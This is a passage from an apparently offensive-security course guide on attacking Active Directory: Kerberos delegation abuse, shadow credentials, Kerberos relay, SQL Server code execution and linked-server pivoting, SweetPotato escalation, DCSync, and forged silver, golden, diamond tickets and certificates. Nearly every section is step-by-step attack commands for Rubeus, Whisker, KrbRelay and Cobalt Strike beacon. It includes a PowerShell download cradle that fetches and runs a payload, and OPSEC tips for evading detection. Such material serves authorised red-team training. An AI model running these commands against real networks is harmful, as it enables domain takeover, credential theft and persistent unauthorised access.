/tgs:execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:[target]$ /msdsspn:cifs/[file-server] /tgs:<base64-service-ticket> /ticket:<base64-tgt> /nowrap - Inject the final service ticket and access the target:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[DOMAIN] /username:[user] /password:[password] /ticket:<base64-ticket> beacon> steal_token <PID> beacon> ls \\[file-server]\c$
OPSEC
- Always use the FQDN in
/msdsspn— short names causeERROR_LOGON_FAILURE(1326). - Without protocol transition, you are limited to users who have cached service tickets on the front-end service — you cannot freely impersonate arbitrary users.
14.6 Service Name Substitution
The sname field in a Kerberos service ticket is not encrypted and not included in the ticket's checksum. An adversary can overwrite it to swap one service for another (e.g., TIME/PC1 to CIFS/PC1), as long as both SPNs run under the same account. This works because both services share the same decryption key.
This technique is valuable when constrained delegation targets a non-useful SPN (e.g., TIME). The Rubeus /altservice parameter automates the substitution and accepts comma-separated values for multiple tickets.
Methodology
- Identify a constrained delegation entry with a non-useful SPN:
beacon> ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo - Perform S4U with
/altserviceto substitute the SPN (protocol transition assumed):execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:[target]$ /msdsspn:time/[dc] /altservice:cifs /ticket:<base64-tgt> /impersonateuser:Administrator /nowrap - Inject the substituted ticket and verify access:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[DOMAIN] /username:[user] /password:[password] /ticket:<base64-ticket> beacon> steal_token <PID> beacon> ls \\[dc]\c$
OPSEC
- Substitution only works when both the original and target SPN run under the same principal — you cannot cross account boundaries (e.g.,
HTTP/PC1toCIFS/PC2). - Use
/altservice:cifs,host,httpto generate multiple tickets for different services in one pass.
14.7 S4U2self Computer Takeover
When you obtain a computer's TGT (e.g., via unconstrained delegation or remote auth triggers), you cannot directly access its C$ share because machine accounts lack remote admin privileges to themselves. The S4U2self computer takeover technique uses the computer's TGT to request a service ticket to itself on behalf of a privileged user, then substitutes the SPN to a useful service like CIFS.
This technique was published by Elad Shamir and merged into Rubeus by Charlie Clark via the /self parameter.
Methodology
- Capture or extract the target computer's TGT (e.g., via Rubeus monitor on an unconstrained delegation host):
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:5 /nowrap - Force the target to authenticate (if needed):
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe [dc] [target] - Perform S4U2self with
/selfand/altserviceto get a usable ticket as a domain admin:execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/[dc] /ticket:<base64-computer-tgt> /nowrap - Inject the ticket and verify access:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[DOMAIN] /username:[user] /password:[password] /ticket:<base64-ticket> beacon> steal_token <PID> beacon> ls \\[dc]\c$
OPSEC
- The S4U2self request appears as a legitimate Kerberos operation from the computer account — blends with normal domain traffic.
- The
/altserviceswap works because CIFS runs as the computer account (SYSTEM), sharing the same key as the S4U2self ticket.
14.8 Resource-Based Constrained Delegation
RBCD (Windows 2012+) reverses the delegation model: the back-end service controls which front-end principals can delegate to it, via the msDS-AllowedToActOnBehalfOfOtherIdentity attribute. Modifying this attribute only requires WriteProperty (or broader rights like GenericAll, GenericWrite, WriteDacl) on the computer object — no SeEnableDelegationPrivilege needed.
| Prerequisite | Details |
|---|---|
Write access to msDS-AllowedToActOnBehalfOfOtherIdentity | Via direct ACE (GUID 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79), or broader rights on the computer object. |
| Control of a principal with an SPN | Existing computer account (SYSTEM access), kerberoasted service account, or a new machine account (default msDS-MachineAccountQuota is 10). |
Methodology
- Find principals with write access to the RBCD attribute on computers:
Get-DomainComputer -Server [team-server-ip] -Credential $Cred | Get-DomainObjectAcl -Server [team-server-ip] -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -Match 'WriteProperty' } | select ObjectDN,SecurityIdentifier - Resolve the SID to identify the group or user:
Get-ADGroup -Filter 'objectsid -eq "S-1-5-21-..."' -Server [team-server-ip] -Credential $Cred - Check current RBCD entries on the target:
Get-ADComputer -Identity '[file-server]' -Properties PrincipalsAllowedToDelegateToAccount -Server [team-server-ip] -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount - Add a controlled computer account to the RBCD attribute (preserve existing entries):
$ws1 = Get-ADComputer -Identity '[target]' -Server [team-server-ip] -Credential $Cred $wkstn1 = Get-ADComputer -Identity '[target]' -Server [team-server-ip] -Credential $Cred Set-ADComputer -Identity '[file-server]' -PrincipalsAllowedToDelegateToAccount $ws1,$wkstn1 -Server [team-server-ip] -Credential $Cred - Extract or request a TGT for the controlled principal:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap - Perform S4U to obtain a service ticket to the target as a privileged user:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:[TARGET]$ /impersonateuser:Administrator /msdsspn:cifs/[file-server] /ticket:<base64-tgt> /nowrap - Inject the ticket and access the target:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[DOMAIN] /username:[user] /password:[password] /ticket:<base64-ticket> beacon> steal_token <PID> beacon> ls \\[file-server]\c$ - Clean up — restore the original RBCD entries:
Set-ADComputer -Identity '[file-server]' -PrincipalsAllowedToDelegateToAccount $ws1 -Server [team-server-ip] -Credential $Cred
14.8.1 Alternative: No Existing Computer Access
If you do not control a computer account with SYSTEM access, create a fake machine account using StandIn (requires msDS-MachineAccountQuota > 0). Compute its hashes with Rubeus and request a TGT for it.
- Create a fake computer object:
execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make - Compute hashes and request a TGT:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:<random-password> /user:EvilComputer$ /domain:[domain] execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:<hash> /nowrap
OPSEC
- Adding RBCD entries modifies the target's AD object — revert changes immediately after use.
- Also check for
GenericWriteandGenericAllon computer objects, not only the specificWritePropertyonmsDS-AllowedToActOnBehalfOfOtherIdentity. - The
msDS-AllowedToActOnBehalfOfOtherIdentityattribute stores raw binary security descriptors — property collection types must match (all computer or all user accounts).
14.9 Shadow Credentials
The Key Trust model allows Kerberos pre-authentication using asymmetric keys stored in a principal's msDS-KeyCredentialLink attribute. If you have write access to this attribute on a user or computer object, you can add a new key pair and use it to request a TGT — the "shadow credentials" attack. This is a DACL-based abuse, similar to RBCD.
Methodology
- List existing keys on the target (for cleanup reference):
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:[dc]$ - Add a new key pair to the target:
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:[dc]$ - Request a TGT using the certificate and password output by Whisker:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[dc]$ /certificate:<base64-cert> /password:"<generated-password>" /enctype:aes256 /nowrap - Use S4U2self to obtain a usable service ticket (same technique as section 14.7):
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/[dc] /user:[dc]$ /ticket:<base64-tgt> /nowrap - Clean up — remove only your added key by device ID:
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:[dc]$ execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:[dc]$ /deviceid:<your-device-id>
OPSEC
- Do not use Whisker's
clearcommand if keys already existed — it removes all entries and breaks legitimate passwordless authentication. - Shadow credentials do not require creating a fake computer account, making them less noisy than RBCD in environments with
msDS-MachineAccountQuotamonitoring. - Requires AD CS or Key Trust to be configured in the environment for PKINIT to function.
14.10 Kerberos Relay Attacks
Kerberos relay exploits the fact that services running under the same computer account share the same secret key. An attacker starts a malicious RPC server that forces connecting clients to authenticate via Kerberos with an attacker-chosen SPN, then relays the resulting AP-REQ to a different service on the same host (e.g., from HOST/DC to LDAP/DC). This enables local privilege escalation on domain-joined hosts by modifying the computer's AD object via LDAP.
This attack is blocked when LDAP signing or channel binding is enforced, but these are disabled by default. The KrbRelay tool (cube0x0) handles the relay; the LPE is achieved via RBCD or shadow credentials.
14.10.1 Via RBCD
- Create a fake computer account and note its SID:
execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make - Find a suitable port for the OXID resolver:
execute-assembly C:\Tools\KrbRelay\CheckPort\bin\Release\CheckPort.exe - Run KrbRelay to relay authentication and write the RBCD entry:
execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/[dc] -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd <EvilComputer-SID> -port <port> - Request a TGT for the fake computer, then S4U for a HOST ticket:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:<hash> /nowrap execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:EvilComputer$ /impersonateuser:Administrator /msdsspn:host/[target] /ticket:<base64-tgt> /ptt - Elevate via the Service Control Manager:
elevate svc-exe-krb tcp-local
14.10.2 Via Shadow Credentials
- Run KrbRelay with the
-shadowcredparameter:execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/[dc] -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred -port <port> - Request a TGT using the certificate output by KrbRelay:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-2$ /certificate:<base64-cert> /password:"<password>" /enctype:aes256 /nowrap - S4U2self for a HOST ticket, then elevate:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:host/[target] /user:[target]$ /ticket:<base64-tgt> /ptt elevate svc-exe-krb tcp-local
OPSEC
- KrbRelay uses the BouncyCastle Crypto package, making the assembly exceed Beacon's default task size (1 MB). Increase with
set tasks_max_size "2097152";in the C2 profile, then restart the team server and regenerate payloads. - If running RBCD and shadow credential attacks back-to-back, allow time for clock sync or reboot the target to avoid
0x800706D3errors. - Shadow credentials via relay do not require a fake computer account — fewer artifacts to clean up.
14.11 Lateral Movement Service Tickets
Delegation attacks demonstrated in this chapter default to CIFS tickets for proof-of-concept, but different lateral movement techniques require different service tickets. The table below maps services to the required SPNs.
| Service | Description | Required SPN(s) |
|---|---|---|
| SMB | Remote filesystem access — view, upload, delete files | CIFS |
| PsExec | Binary execution via Service Control Manager | CIFS |
| WinRM | Windows Remote Management | HTTP |
| WMI | Remote process execution (e.g., process call create) | RPCSS, HOST, RestrictedKrbHost |
| RDP | Remote Desktop Protocol | TERMSRV, HOST |
| MSSQL | SQL database access | MSSQLSvc |
Use the /altservice parameter in Rubeus to substitute the SPN in the final ticket to match the target lateral movement technique. Multiple SPNs can be specified as a comma-separated list (e.g., /altservice:cifs,host,http).
15. Microsoft SQL Server
Microsoft SQL Server is a relational database management system common in Windows environments. Beyond data theft opportunities, SQL servers present a large attack surface for code execution, privilege escalation, lateral movement, and persistence.
Tools for interacting with MS SQL include SQL-BOF, SQLRecon, PowerUpSQL, sqlcmd, HeidiSQL, and SSMS. This chapter focuses on SQL-BOF, but any tool that supports the same operations will work.
15.1 Enumeration
SQL Server instances can be discovered by querying for SPNs that support Kerberos authentication. This reveals hostnames, instance names, and the service accounts running them. If Kerberos is not configured, a port scan for 1433/TCP is a suitable fallback.
| Method | When to Use | Details |
|---|---|---|
| SPN query | Kerberos configured | Search for MSSQLSvc* SPNs via LDAP |
| Port scan | No Kerberos SPNs | Scan for 1433/TCP |
| UDP 1434 | SQLBrowser running | Returns server name, instance, version without any role |
Methodology
- Enumerate SQL instances via SPN search:
beacon> ldapsearch (&(samAccountType=805306368)(servicePrincipalName=MSSQLSvc*)) --attributes name,samAccountName,servicePrincipalName - Fallback port scan for SQL servers:
beacon> portscan [ip]/23 1433 arp 1024 - Query SQLBrowser for minimal instance info (no role required):
beacon> [sql-target]434udp [ip] - Gather detailed server info (requires public role):
beacon> sql-info [sql-target] - Check current user roles and permissions:
beacon> sql-whoami [sql-target]
OPSEC
- SPN queries generate LDAP traffic to the DC — normal for domain-joined hosts, anomalous from workstations that do not typically query for SQL SPNs.
- Port scanning is noisy — use targeted scans against known subnets rather than broad sweeps.
15.2 Data Hunting
With at least the public role, you can query databases, tables, and columns to hunt for sensitive data. SQL-BOF provides purpose-built commands for this workflow.
| Command | Purpose |
|---|---|
sql-query | Execute arbitrary SQL queries |
sql-databases | List available databases |
sql-tables | List tables in a given database |
sql-columns | List columns in a given table |
sql-search | Search for columns containing a keyword |
Methodology
- Run an arbitrary query:
beacon> sql-query [sql-target] "SELECT @@SERVERNAME" - List databases, then drill into tables and columns:
beacon> sql-databases [sql-target] beacon> sql-tables [sql-target] <database> beacon> sql-columns [sql-target] <database> <table> - Search for columns matching a keyword (e.g., password, credit, SSN):
beacon> sql-search [sql-target] <database> <keyword>
15.3 Impersonation
SQL impersonation (context switching) allows a user to assume the permissions of another SQL principal without knowing their password. If IMPERSONATE is granted on a privileged account (e.g., the service account), any user with that permission inherits those privileges.
Methodology
- Discover impersonation grants:
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE'; - Resolve principal IDs to names:
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals; - Execute a query as the impersonated principal:
EXECUTE AS login = '[DOMAIN]\[svc-account]'; SELECT SYSTEM_USER; EXECUTE AS login = '[DOMAIN]\[svc-account]'; SELECT IS_SRVROLEMEMBER('sysadmin');
OPSEC
EXECUTE ASgenerates audit events if SQL Server Audit is enabled — check audit configuration before use.
15.4 Code Execution
With sysadmin privileges on a SQL instance, several techniques allow OS-level command execution. All are disabled by default and must be enabled first. The three primary methods are xp_cmdshell, OLE Automation Procedures, and SQL CLR assemblies.
| Technique | Returns Output | Enable Command | Disable Command |
|---|---|---|---|
xp_cmdshell | Yes | sql-enablexp | sql-disablexp |
| OLE Automation | No | sql-enableole | sql-disableole |
| SQL CLR | No | sql-enableclr | sql-disableclr |
15.4.1 xp_cmdshell
The xp_cmdshell stored procedure spawns a Windows command shell and passes a string for execution. It is the only technique that returns output as rows of text. Commands run under the context of the SQL service account.
- Check if
xp_cmdshellis enabled:beacon> sql-query [sql-target] "SELECT name,value FROM sys.configurations WHERE name = 'xp_cmdshell'" - Enable
xp_cmdshell(value 0 = disabled):beacon> sql-enablexp [sql-target] - Execute a command via
xp_cmdshell:beacon> sql-xpcmd [sql-target] "hostname && whoami" - Disable
xp_cmdshellafter use:beacon> sql-disablexp [sql-target]
15.4.2 OLE Automation
OLE Automation Procedures allow a SQL server to interact with COM objects. The sql-olecmd BOF uses WScript.Shell to run shell commands. OLE cannot return output, so it is limited to executing one-liners.
| Stored Procedure | Purpose |
|---|---|
sp_OACreate | Create an instance of an OLE object |
sp_OAMethod | Call a method of an OLE object |
sp_OADestroy | Destroy a created OLE object |
sp_OAGetProperty | Get a property value of an OLE object |
sp_OASetProperty | Set a property of an OLE object |
- Check if OLE Automation is enabled:
beacon> sql-query [sql-target] "SELECT name,value FROM sys.configurations WHERE name = 'Ole Automation Procedures'" - Enable OLE Automation:
beacon> sql-enableole [sql-target] - Execute a command via OLE:
beacon> sql-olecmd [sql-target] "cmd /c powershell -w hidden -nop -enc [BASE64]" - Disable OLE Automation after use:
beacon> sql-disableole [sql-target]
15.4.3 SQL CLR Assemblies
SQL CLR integrates the .NET Framework into SQL Server, allowing stored procedures written in C# or VB.NET. A compiled assembly can contain arbitrary code — from process spawning to full shellcode injection via P/Invoke.
| Requirement | Detail |
|---|---|
| Class | public partial class StoredProcedures |
| Attribute | [SqlProcedure] on the method |
| Return type | void (must be static) |
| Capabilities | Arbitrary C# code: P/Invoke, shellcode injection, process creation |
- Check if SQL CLR is enabled:
beacon> sql-query [sql-target] "SELECT value FROM sys.configurations WHERE name = 'clr enabled'" - Enable SQL CLR:
beacon> sql-enableclr [sql-target] - Load and execute the CLR assembly:
beacon> sql-clr [sql-target] C:\Users\[user]\source\repos\ClassLibrary1\bin\Release\ClassLibrary1.dll MyProcedure - Link to the resulting Beacon:
beacon> link [sql-target] [pipe-name] - Disable SQL CLR after use:
beacon> sql-disableclr [sql-target]
15.4.4 Payload Delivery via Reverse Port Forward
SQL servers are often network-restricted and cannot reach external hosts. Use a reverse port forward through an existing Beacon to tunnel payload delivery. Encode the download cradle as a base64 PowerShell command to avoid quoting issues.
- Create a reverse port forward and firewall rule on the pivot host:
beacon> rportfwd 8080 127.0.0.1 80 - Generate the base64-encoded download cradle:
$cmd = 'iex (new-object net.webclient).downloadstring("http://pivot-host:8080/b")' [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($cmd)) - Execute the encoded payload via OLE or
xp_cmdshell:beacon> sql-olecmd [sql-target] "cmd /c powershell -w hidden -nop -enc [BASE64]"
OPSEC
- Enabling
xp_cmdshell, OLE, or CLR changessys.configurations— always restore the original value after use. xp_cmdshellspawnscmd.exeas a child ofsqlservr.exe— highly detectable by EDR process-tree analysis.- CLR assemblies are registered in
sys.trusted_assembliesandsys.assemblies— forensic artifacts persist until cleaned up. - OLE creates and destroys COM objects with randomized names — less visible than
xp_cmdshellbut still generates process creation events.
15.5 Linked Servers
SQL Server links connect one instance to external data sources, including other SQL servers (potentially across domains, forests, or cloud boundaries). Links can be abused for lateral movement when the link is configured with privileged credentials.
The security context on the linked server depends on link configuration. Links may use hardcoded local credentials (e.g., sa), hardcoded domain credentials, or inherit the current session context. A link configured with sa grants sysadmin on the remote server regardless of privileges on the originating server.
Methodology
- Enumerate linked servers:
beacon> sql-links [sql-target] - Check your identity and roles on the linked server:
beacon> sql-whoami [sql-target] "" [linked-sql-target] - Execute a query on the linked server:
beacon> sql-query [sql-target] "SELECT @@SERVERNAME" "" [linked-sql-target] - Check RPC Out status (required to call stored procedures on the link):
beacon> sql-checkrpc [sql-target] - Enable RPC Out on the link if disabled:
beacon> sql-enablerpc [sql-target] [linked-sql-target] - Enable execution features and get code execution across the link:
beacon> sql-enableclr [sql-target] "" [linked-sql-target] beacon> sql-clr [sql-target] C:\path\to\assembly.dll MyProcedure "" [linked-sql-target]
15.5.1 Alternative Link Query Syntax
Queries across links can also use OPENQUERY or the AT syntax. OPENQUERY requires double quotes for the server name and single quotes for the query. The AT syntax requires square brackets around the server name.
- Query via OPENQUERY:
SELECT * FROM OPENQUERY("[sql-target]", 'select @@servername'); - Enable xp_cmdshell via AT syntax (requires RPC Out):
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [[sql-target]] EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [[sql-target]] - Execute xp_cmdshell on a linked server via OPENQUERY:
SELECT * FROM OPENQUERY("[sql-target]", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc [BASE64]''')
OPSEC
- Enabling RPC Out modifies the link configuration — revert after use.
- Link traversal may cross domain or forest boundaries — the target may have different monitoring controls.
- A user with only
publicon the first server can inheritsysadminon a linked server if the link is configured with privileged credentials — this is a common misconfiguration to look for.
15.6 Privilege Escalation
SQL Server service accounts (e.g., NT Service\MSSQLSERVER) are local virtual accounts with limited local privileges by design. However, they often hold SeImpersonatePrivilege, which allows impersonation of tokens obtained through authentication. This applies to other service accounts as well, such as IIS application pool identities.
Tools like SweetPotato exploit this by creating a named pipe, coercing a SYSTEM process to connect, impersonating its token, and spawning an arbitrary process as SYSTEM.
| Privilege | Description | Exploitable With |
|---|---|---|
SeImpersonatePrivilege | Impersonate a client after authentication | SweetPotato, PrintSpoofer, GodPotato |
SeAssignPrimaryTokenPrivilege | Replace a process-level token | SweetPotato, JuicyPotato |
Methodology
- Confirm current identity and check token privileges:
beacon> getuid beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt.exe TokenPrivileges - Upload a payload to a writable directory:
beacon> cd C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps beacon> upload C:\Payloads\tcp-local_x64.exe - Execute SweetPotato to escalate to SYSTEM:
beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p "C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps\tcp-local_x64.exe" - Connect to the resulting SYSTEM Beacon:
beacon> connect localhost 1337
OPSEC
- SweetPotato creates a named pipe and triggers SYSTEM authentication — generates Windows Security event 4624 (logon type 9).
- Dropping an executable to disk risks AV/EDR detection — consider writable directories that are excluded from scanning.
- The
PrintSpoofertechnique (default in SweetPotato) may be patched on fully updated servers — test before relying on it.
16. Domain Dominance
Once domain admin privileges are obtained, an adversary extracts high-value authentication material to maintain that level of access almost indefinitely. This chapter covers DCSync, ticket forgery (silver, golden, and diamond tickets), forged certificates, and DPAPI backup key extraction.
16.1 DCSync
Domain controllers replicate data between themselves using the Directory Replication Service (DRS) protocol. DCSync (T1003.006) abuses this protocol to pull usernames and password hashes directly from a DC, requiring domain admin, enterprise admin, or DC computer account access.
The primary target is the krbtgt account. Its secret encrypts and signs all TGTs, so possessing this hash enables forging valid TGTs for any domain user. Unlike computer account passwords, the krbtgt password is never automatically rotated by Active Directory.
Methodology
- Extract the krbtgt hash via DCSync:
dcsync [domain] [DOMAIN]\krbtgt - Extract a specific user account hash:
dcsync [domain] [DOMAIN]\[user]
16.1.1 Detection
DRS traffic is legitimate between domain controllers, so its presence alone is not an indicator. Defenders must look for replication requests originating from non-DC IP addresses.
| Event ID | GUID | Description |
|---|---|---|
| 4662 | 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 | DS-Replication-Get-Changes / Get-Changes-All |
| 4662 | 89e95b76-444d-4c62-991a-0facbeda640c | DS-Replication-Get-Changes-In-Filtered-Set |
OPSEC
- Replication traffic from a non-DC source is anomalous — only run DCSync from hosts that blend with normal replication patterns, or accept the detection risk.
- Event 4662 with the replication GUIDs logged when Directory Service Access auditing is enabled — monitor for these when validating blue team coverage.
16.2 Silver Tickets
A silver ticket (T1558.002) is a forged Kerberos service ticket signed with a service's secret (the computer account hash). It grants access to a specific service on a specific machine without contacting the KDC. Computer account passwords rotate every 30 days by default, limiting the persistence window.
| Rubeus Parameter | Purpose |
|---|---|
/service | Target SPN (e.g., cifs/host, MSSQLSvc/host:1433) |
/aes256 or /rc4 | Service account hash |
/user | Username to impersonate |
/domain | FQDN of the target domain |
/sid | Domain SID |
/id | RID of the impersonated user (default: 500) |
/groups | Group RIDs to embed (default: 520,512,513,519,518) |
/nowrap | Output ticket on a single line for easy copy |
Methodology
- Forge a CIFS silver ticket using the target computer's AES256 hash:
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/[sql-target] /aes256:[aes256-key] /user:[user] /domain:[DOMAIN] /sid:[domain-SID] /nowrap - Create a sacrificial logon session and import the ticket:
make_token [DOMAIN]\[user] [password]- Pass the ticket into the session:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:doIFb[...snip...]kYi0x
- Pass the ticket into the session:
- Verify access to the target:
ls \\[sql-target]\c$ - Revert the token when finished:
rev2self
16.2.1 Silver Tickets for MSSQL
When a Kerberoasted service account password is recovered, the hash can forge a service ticket impersonating a known sysadmin user against the MSSQL service, even if the service account itself lacks sysadmin privileges.
- Convert the plaintext password to hash equivalents:
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /user:[svc-account] /domain:[DOMAIN] /password:[password] - Forge a silver ticket for the MSSQLSvc SPN with custom RID and groups:
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:MSSQLSvc/[sql-target]:1433 /rc4:FC525C9683E8FE067095BA2DDC971889 /user:[user] /id:1108 /groups:513,1106,1107,4602 /domain:[DOMAIN] /sid:[domain-SID] /nowrap - Import the ticket and verify MSSQL access:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:doIFV[...snip...]xNDMz- Query the database instance:
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[sql-target] /m:info
- Query the database instance:
OPSEC
- PAC validation — when enabled on the target computer, the service validates the PAC signature with the KDC; since a silver ticket is signed with the computer hash (not the krbtgt hash), validation fails and access is denied.
- Missing 4769 event — legitimate service ticket use produces a 4769 (TGS-REQ) on the DC before a 4624 on the target; a silver ticket produces a 4624 with no corresponding 4769.
- Anomalous ticket data — realm name in lowercase, unusual lifetime values, or incorrect group memberships can flag a forged ticket.
16.3 Golden Tickets
A golden ticket (T1558.001) is a forged TGT signed with the krbtgt AES256 hash. Unlike a silver ticket, it grants access to any service on any machine in the domain as any user. The krbtgt hash is never rotated automatically, making this the single most powerful persistence secret in Active Directory.
Methodology
- Obtain the krbtgt AES256 hash via DCSync (see section 16.1).
- Forge a golden ticket offline:
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:[aes256-key] /user:[user] /domain:[DOMAIN] /sid:[domain-SID] /nowrap - Import the TGT and access a target service:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[DOMAIN] /username:[user] /password:[password] /ticket:doIFg[...snip...]uQ09N- Steal the token and verify access:
steal_token <PID> ls \\[dc]\c$
- Steal the token and verify access:
OPSEC
- Missing AS-REQ — a golden ticket produces TGS-REQs (event 4769) without a preceding AS-REQ (event 4768) for the impersonated user.
- Anomalous ticket lifetime — Mimikatz sets forged ticket lifetimes to 10 years by default; the standard domain policy is 10 hours with 7-day renewal. Rubeus handles this better but always verify.
- The
krbtgtpassword should be rotated twice (to invalidate cached tickets) as part of breach remediation.
16.4 Diamond Tickets
A diamond ticket starts with a legitimate TGT obtained from the KDC, then decrypts it with the krbtgt hash, modifies internal fields (username, RID, groups), and re-encrypts it. The result is functionally identical to a golden ticket but with metadata (timestamps, flags, lifetime) that matches the domain's Kerberos policy, making it harder to detect.
Because the original TGT is requested via a real AS-REQ, there is no gap in the Kerberos event chain that defenders look for with golden tickets.
| Rubeus Parameter | Purpose |
|---|---|
/tgtdeleg | Use Kerberos GSS-API delegation trick to get a TGT without credentials |
/krbkey | krbtgt AES256 hash for decryption and re-encryption |
/ticketuser | Username to impersonate in the modified ticket |
/ticketuserid | RID of the impersonated user |
/groups | Group RIDs to embed (default: 520,512,513,519,518) |
Methodology
- Forge a diamond ticket from Beacon using TGT delegation:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /krbkey:[aes256-key] /ticketuser:Administrator /ticketuserid:500 /domain:[DOMAIN] /nowrap - Verify the modified ticket with Rubeus describe:
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /servicekey:[aes256-key] /ticket:doIF5[...snip...]5DT00= - Import the diamond ticket and use it:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:doIF5[...snip...]5DT00=
OPSEC
- Peripheral metadata matches legitimate tickets — ticket lifetimes, flags, and encryption types all conform to domain policy.
- Some fields (e.g.,
FullName) may still reflect the original user, not the impersonated one — a potential detection point for defenders inspecting PAC contents. - Requires the
krbtgtAES256 hash, same as a golden ticket.
16.5 Forged Certificates
When AD CS is deployed, the CA private key can sign certificates for any domain principal. Extracting this key from a compromised CA server functions like possessing the krbtgt hash: it enables forging certificates that request valid TGTs for any user. The default CA key validity is 5 years, sometimes configured to 10+ years.
CA servers are often not treated with the same sensitivity as domain controllers. Lower-privileged roles like server admins may have local admin access to the CA, making this both a privilege escalation and a persistence path.
Methodology
- From a session on the CA, extract the machine certificate and private key:
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine - Save the output to a
.pemfile and convert to.pfx:openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out sub-ca.pfx - Forge a certificate for the target user (user must exist in AD):
C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath .\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "[user]@[domain]" --NewCertPath .\fake.pfx --NewCertPassword pass123 - Base64-encode the forged certificate and request a TGT:
cat fake.pfx | base64 -w 0- Request TGT with the forged certificate:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[user] /domain:[domain] /enctype:aes256 /certificate:MIACAQ[...snip...]IEAAAA /password:pass123 /nowrap
- Request TGT with the forged certificate:
OPSEC
- Machine certificates can also be forged — combine with S4U2self to gain access to any machine or service in the domain.
- CA key validity outlasts most other persistence mechanisms — the forged certificate remains valid until the CA key expires or is revoked.
- No officially supported way to rotate the CA private key without rebuilding the PKI hierarchy.
16.6 DPAPI Backup Keys
